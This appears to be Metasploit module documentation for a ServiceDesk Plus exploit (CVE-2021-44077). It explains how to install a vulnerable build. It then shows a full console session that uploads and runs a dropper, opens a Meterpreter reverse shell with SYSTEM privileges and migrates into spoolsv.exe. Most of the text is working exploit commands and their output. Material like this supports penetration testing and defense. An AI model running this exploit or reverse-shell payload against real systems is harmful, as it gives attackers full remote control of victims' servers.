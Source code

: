 ## Vulnerable Application

### Setup

Follow the [Installing ServiceDesk Plus] guide, in particular [Installation on Windows]. You can skip licensing.

1. Download [ManageEngine_ServiceDesk_Plus_64bit.exe]
1. Run the installer
1. Start the server
1. Hax

Note that build 11305 is not an exploitable build, so don't download that.

[Installing ServiceDesk Plus]: https://help.servicedeskplus.com/installing-servicedesk-plus
[Installation on Windows]: https://help.servicedeskplus.com/introduction/installation-and-getting-started.html
[ManageEngine_ServiceDesk_Plus_64bit.exe]: https://archives.manageengine.com/service-desk/11301/ManageEngine_ServiceDesk_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

## Scenarios

### ServiceDesk Plus 11301 on Windows Server 2016

```
msf6 > use exploit/windows/http/manageengine_servicedesk_plus_cve_2021_44077
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > options

Module options (exploit/windows/http/manageengine_servicedesk_plus_cve_2021_44077):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter_reverse_tcp):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EXITFUNC    process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                   no        Comma-separate list of extensions to load
   EXTINIT                      no        Initialization strings for extensions
   LHOST                        yes       The listen address (an interface may be specified)
   LPORT       4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Dropper


msf6 exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > set rhosts 172.16.57.222
rhosts => 172.16.57.222
msf6 exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /RestAPI/ImportTechnicians is present.
[*] Uploading msiexec.exe
[+] Successfully uploaded msiexec.exe
[*] Executing msiexec.exe
[!] Yo, don't forget to clean up ..\bin\msiexec.exe
[*] Meterpreter session 1 opened (172.16.57.1:4444 -> 172.16.57.222:50095 ) at 2021-12-23 11:28:47 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-PRMQDT3BCJI
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\ManageEngine\ServiceDesk\site24x7
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 4816 to 1728...
[*] Migration completed successfully.
meterpreter > rm 'C:\Program Files\ManageEngine\ServiceDesk\site24x7\..\bin\msiexec.exe'
meterpreter >
```
